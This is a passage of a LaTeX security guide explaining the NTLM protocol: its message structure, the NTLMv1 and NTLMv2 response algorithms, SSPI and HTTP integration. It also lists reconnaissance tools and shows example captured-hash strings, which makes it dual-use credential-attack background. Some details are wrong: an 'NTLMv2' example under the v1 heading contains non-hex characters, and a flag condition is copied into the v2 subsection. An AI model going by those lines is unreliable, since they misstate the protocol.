  
\includegraphics[width=\linewidth]{network/ntlm/images/Domain-joined_Computers_NTLM_Authentication.png}
  \caption{Domain joined NTLM protocol}
  \label{fig:domain-ntlm-protocol}
\end{figure}

\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{network/ntlm/images/Workgroup_Computers_NTLM_Authentication.png}
  \caption{Workgroup NTLM protocol}
  \label{fig:workgroup-ntlm-protocol}
\end{figure}

Once it receives the \verb+AUTHENTICATE_MESSAGE+, and because it does not possess the client's secret key, the server delegates the verification of the user's identity to a DC (a procedure known as \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/70697480-f285-4836-9ca7-7bb52f18c6af}{Pass-through authentication}) by invoking \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/d17f1077-de4b-4fcd-8867-39068cb789f5}{NetrLogonSamLogonWithFlags}, which contains \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/e17b03b8-c1d2-43a1-98db-cf8d05b9c6a8}{NETLOGON\_NETWORK\_INFO}, a data structure populated with the various fields that the DC requires to verify the user.

If authentication is successful, the DC returns a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/bccfdba9-0c38-485e-b751-d4de1935781d}{NETLOGON\_VALIDATION\_SAM\_INFO4} data structure to the server, and the server establishes an authenticated session with the client; otherwise, the DC returns an error, and the server might return an error message to the client, or, it can simply terminate the connection.

\subsection{NTLM Messages}

Each NTLM message is variable-length, containing a:
\begin{itemize}
    \item 
        fixed-length {\bf header} which contains in order:
        \begin{itemize}
            \item the signature: 8-byte NULL-terminated ASCII string always set to \verb+[N, T, L, M, S, S, P, \0]+.
            \item the message type: 4-byte unsigned integer (\verb+0x00000001 = NtLmNegotiate+, \verb+0x00000002=NtLmChallenge+, \verb+0x00000003=NtLmAuthenticate+ ) 
            \item MessageDependentFields: A variable-length field that contains the NTLM message contents.
        \end{itemize}
    \item 
        a variable-sized message {\bf payload}: contains a message-dependent number of individual payload messages, referenced by byte offsets in {\bf MessageDependentFields}.
\end{itemize}

\subsubsection{NEGOTIATE\_MESSAGE}

It contains four message-dependent fixed-length fields. One important field to know about is \verb+NegotiateFlags+. this 4-bytes field, present in all three NTLM messages and not exclusive to \verb+NEGOTIATE_MESSAGE+, is a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/99d90ff4-957f-4c8a-80e4-5bfe5a9a9832}{NEGOTIATE} structure consisting of 32 1-bit flags that allow indicating which NTLM capabilities are supported/requested by the sender.

\subsubsection{CHALLENGE\_MESSAGE}

It contains six message-dependent fixed-length fields, two important:
\begin{itemize}
    \item 
        NegotiateFlags: holds the flags the server has chosen from the options offered/requested by the client in \verb+NegotiateFlags+ of the \verb+NEGOTIATE_MESSAGE+
    \item
        ServerChallenge: a 64-bit nonce that holds the NTLM challenge generated by the server.
\end{itemize}

Tools, such as \href{https://github.com/nopfor/ntlm_challenger}{NTLM Challenger}, \href{https://gitlab.com/Zer1t0/ntlm-info}{ntlm-info}, \href{https://github.com/praetorian-inc/NTLMRecon}{NTLMRecon}, and \href{https://github.com/fortra/impacket/blob/impacket_0_11_0/examples/DumpNTLMInfo.py}{DumpNTLMInfo.py} perform reconnaissance against endpoints/hosts that accept NTLM authentication by parsing the information returned within the \verb+CHALLENGE_MESSAGE+

\subsubsection{AUTHENTICATE\_MESSAGE}

It contains nine message-dependent fixed-length fields, three important to know about, 
\begin{itemize}
    \item 
        \verb+ClientChallenge+: The 8-byte challenge message generated by the client.
    \item 
        \verb+LmChallengeResponseFields+
    \item
        \verb+NtChallengeResponseFields+
\end{itemize}


\subsection{Protocol version and message calculation}

The NTLM protocol performs a challenge/response between a server and  client using the NT hash.

\subsubsection{NTLMv1 (Net-NTMLv1)}

If \verb+NTLMSSP_NEGOTIATE_LM_KEY+ (\verb+G+ bit of \verb+NEGOCIATE+) was agreed upon by the server and client in \verb+NegotiateFlags+ then:
\begin{itemize}
    \item 
        \verb+LmChallengeResponseFields+ contains a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/e3fee6d1-0d93-4020-84ab-ca4dc5405fc9}{LM\_RESPONSE} structure
    \item
        \verb+NtChallengeResponseFields+ contains a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b88739c6-1266-49f7-9d22-b13923bd8d66}{NTLM\_RESPONSE} structure;
\end{itemize}

\verb+LM_RESPONSE+ contains one field, which is \verb+Response+, a 24-byte array of unsigned char that contains the client's \verb+LmChallengeResponse+

\verb+NTLM_RESPONSE+ contains one field, which is \verb+Response+, a 24-byte array of unsigned char that contains the client's \verb+NtChallengeResponse+

\href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/464551a8-9fc4-428e-b3d3-bc5bfb2e73a5} {NTLM v1 Authentication pseudo-code} is implemented in \href{https://github.com/fortra/impacket/blob/9a8d27034eab20d23802730d0c69bf99356d8af1/impacket/ntlm.py#L717-L740}{computeResponseNTLMv1}

The algorithm  looks as follows:
\begin{verbatim}
C = 8-byte server challenge, random
K1 | K2 | K3 = LM/NT-hash | 5-bytes-0
response = DES(K1,C) | DES(K2,C) | DES(K3,C)
\end{verbatim}

Here's an example of a NTLMv2 hash:
\begin{verbatim}
Support1::WIN-OLMHXGAP0V2:e2dL3196O8f55fB6:Q49S19A2937J6XC3CKA418EI4958OHB9:xF2K324O5L6Q7V8C
\end{verbatim}



\subsubsection{NTLMv2 (Net-NTLMv2)}

If \verb+NTLMSSP_NEGOTIATE_LM_KEY+ (\verb+G+ bit of \verb+NEGOCIATE+) was agreed upon by the server and client in \verb+NegotiateFlags+ then:
\begin{itemize}
    \item 
        \verb+LmChallengeResponseFields+ contains a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/8659238f-f5a9-44ad-8ee7-f37d3a172e56}{LMv2\_RESPONSE} structure.
        \verb+NtChallengeResponseFields+ contains a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/d43e2224-6fc3-449d-9f37-b90b55a29c80}{NTLMv2\_RESPONSE} structure;
\end{itemize}

\verb+LMv2_RESPONSE+, contains two fields:
\begin{itemize}
    \item 
        \verb+Response+: a 16-byte array of unsigned char that contains the clients LM challenge-response,
    \item
        \verb+ChallengeFromClient+: a 8-byte array of unsigned char that contains a challenge generated by the client.
\end{itemize}


\verb+NTLMv2_RESPONSE+, contains two fields:
\begin{itemize}
    \item 
        \verb+Response+: a 16-byte array of unsigned char that contains the clients LM challenge-response,
    \item
        \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/aee311d6-21a7-4470-92a5-c4ecb022a87b}{NTLMv2\_CLIENT\_CHALLENGE}: a variable-length byte array that contains 8 fixed-length variables, including \verb+ChallengeFromClient+
\end{itemize}



\href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/5e550938-91d4-459f-b67d-75d70009e3f3} {NTLM v2 Authentication pseudo-code} is implemented in \href{https://github.com/fortra/impacket/blob/9a8d27034eab20d23802730d0c69bf99356d8af1/impacket/ntlm.py#L900-L937}{computeResponseNTLMv2}


The algorithm is as follows:
\begin{verbatim}
SC = 8-byte server challenge, random
CC = 8-byte client challenge, random
CC* = (X, time, CC2, domain name)
v2-Hash = HMAC-MD5(NT-Hash, user name, domain name)
LMv2 = HMAC-MD5(v2-Hash, SC, CC)
NTv2 = HMAC-MD5(v2-Hash, SC, CC*)
response = LMv2 | CC | NTv2 | CC*
\end{verbatim}


We can see that developers improved upon v1 by making NTLMv2 harder to crack and giving it a more robust algorithm made up of multiple stages. 

Here's an example of a NTLMv2 hash:
\begin{verbatim}
admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c78303100
00000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030
\end{verbatim}


\subsection{Authentification vs Session}
To answer this question, we must first clarify one fundamental thing. When a client authenticates to a server to do something, we must distinguish two things:
\begin{itemize}
    \item 
        Authentication, allowing the server to verify that the client is who he claims to be.
    \item
        The session, during which the client will be able to perform actions.
\end{itemize}

Thus, if the client has authenticated correctly, it will then be able to access the resources offered by the server, such as network shares, access to an LDAP directory, an HTTP server or a SQL database. This list is obviously not exhaustive.

To manage these two steps, the protocol that is used must be able to encapsulate the authentication, thus the exchange of NTLM messages. Microsoft provides an interface that can be relied on to handle authentication, and packages have been specially developed to handle different types of authentication.

\subsubsection{SSPI \& NTLMSSP}

Without going into details, the SSPI interface provides several functions, including \verb+AcquireCredentialsHandle+, \verb+InitializeSecurityContext+ and \verb+AcceptSecurityContext+.

During NTLM authentication, both the client and the server will use these functions. The steps are only briefly described here.
\begin{itemize}
    \item 
        The client calls \verb+AcquireCredentialsHandle+ in order to gain indirect access to the user credentials.
    \item 
        The client then calls \verb+InitializeSecurityContext+, a function which, when called for the first time, will create a message of type 1, thus of type NEGOTIATE. 
    \item 
        The server, when receiving the message, calls the \verb+AcceptSecurityContext+ function. This function will then create the type 2 message, the CHALLENGE.
    \item 
        When receiving this message, the client will call \verb+InitializeSecurityContext+ again, but this time passing the CHALLENGE as an argument. The NTLMSSP package takes care of everything to compute the response by encrypting the challenge, and will produce the last AUTHENTICATE message.
    \item 
        Upon receiving this last message, the server also calls \verb+AcceptSecurityContext+ again, and the authentication verification will be performed automatically.
\end{itemize}

We, with our knowledge of the NTLM protocol, know what these messages correspond to, but both the client and the server don’t care. These messages are described in the Microsoft documentation as {\bf opaque tokens}. 

This means that these 5 steps are completely independent of client’s type or server’s type. They work regardless of the protocol used as long as the protocol has something in place to allow this opaque structure to be exchanged in one way or another from the client to the server.

So the protocols have adapted to find a way to put an NTLMSSP, Kerberos, or other authentication structure into a specific field, and if the client or server sees that there is data in that field, it just passes it to \verb+InitializeSecurityContext+ or \verb+AcceptSecurityContext+.

\subsubsection{HTTP integration}

It has been decided that:
\begin{itemize}
    \item 
        the client sends its messages in a header called \verb+Authorization+ 
    \item the server in a header called \verb+WWW-Authenticate+
\end{itemize}
If a client attempts to access a web site requiring authentication, the server will respond by adding the \verb+WWW-Authenticate+ header, and highlighting the different authentication mechanisms it supports. For NTLM, it will simply say \verb+NTLM+.

\begin{itemize}
    \item 
        The client, knowing that NTLM authentication is required, will send the first message in the \verb+Authorization+ header, encoded in base 64 because the message does not only contain printable characters. 
    \item
        The server will respond with a challenge in the \verb+WWW-Authenticate+ header.
    \item
        The client will compute the response and will send it in \verb+Authorization+. 
    \item
        If authentication is successful, the server will usually return a 200 return code indicating that everything went well.
\end{itemize}

As long as the TCP session is open, authentication will be effective. As soon as the session closes, however, the server will no longer have the client’s security context, and a new authentication will have to take place. This can often happen, and thanks to Microsoft’s SSO (Single Sign On) mechanisms, it is often transparent to the user.


